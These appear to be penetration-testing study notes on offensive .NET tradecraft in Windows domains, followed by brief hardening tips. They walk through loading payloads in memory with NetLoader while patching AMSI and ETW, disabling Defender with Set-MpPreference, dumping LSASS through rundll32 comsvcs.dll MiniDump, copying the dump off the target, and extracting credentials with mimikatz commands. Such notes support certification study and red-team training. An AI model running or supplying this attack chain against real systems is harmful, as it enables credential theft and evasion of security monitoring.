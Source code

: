 # Offensive .NET

| Pros | Cons |
| --- | --- |
| System.Management.Automation.dll lacks some security features for .NET applications / binaries | Potentially detected by AV / EDR |
|  | Harder to deliver payload (need additional script for loading it into memory) |
|  | New process creation, can be detected by blue team |
- use [NetLoader](https://github.com/Flangvik/NetLoader) to deliver binary payloads and execute it directly in memory while bypassing AMSI & ETW by patching them
    - use port forwarding to indirectly load the binary from a remote address (check  [https://0xd4y.com/2023/04/05/CRTP-Notes/](https://0xd4y.com/2023/04/05/CRTP-Notes/) to see how to do that)
- NetLoading an unsigned binary such as SafetyKatz may not work if WDAC is enabled, which would result in an error such as `The system cannot execute the specified program` (check with `Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard`)
    - use `rundll32.exe` to dump the LSASS process and then exfiltrate it (detected by Defender so make sure to turn it off with `Set-MpPreference -DisableRealTimeMonitoring $true`)
    
    ```powershell
    # Get lsass PID
    tasklist /FI "IMAGENAME eq lsass.exe"
    
    # Suppose the lsass pid is 716
    rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump 716 C:\PATH\TO\SAVE\lsass.dmp full
    
    # Copy lsass.dmp to current machine
    echo F | xcopy \\target_machine\C$\PATH\TO\lsass.dmp C:\PATH\TO\SAVE\lsass.dmp
    
    # Dump creds from lsass.dmp
    sekurlsa::minidump C:\PATH\TO\lsass.dmp 
    sekurlsa::ekeys
    ```
    

# Best Practices

- set `Account is sensitive and cannot be delegated` for sensitive accounts
- never run services with DA privileges

## Privileged Administrative Workstation (PAWs)

- workstation for performing sensitive tasks
- provides protection against attacks such as phishing , OS vulnerabilities, and credential replay attacks
